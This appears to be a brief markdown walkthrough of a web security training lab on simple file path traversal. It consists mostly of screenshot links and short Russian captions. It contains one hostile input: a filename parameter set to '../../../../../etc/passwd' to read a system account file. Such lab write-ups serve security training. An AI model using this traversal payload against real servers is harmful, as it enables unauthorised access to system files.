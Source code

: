 ![](https://github.com/TsyganenkoE/Hacking/blob/master/Lab:%20File%20path%20traversal%2C%20simple%20case/1.png)
View details --> картинка <br>
![](https://github.com/TsyganenkoE/Hacking/blob/master/Lab:%20File%20path%20traversal%2C%20simple%20case/2.png)
!filename=../../../../../etc/passwd <>br
![](https://github.com/TsyganenkoE/Hacking/blob/master/Lab:%20File%20path%20traversal%2C%20simple%20case/3.png)
Ура <br>
![](https://github.com/TsyganenkoE/Hacking/blob/master/Lab:%20File%20path%20traversal%2C%20simple%20case/4.png)
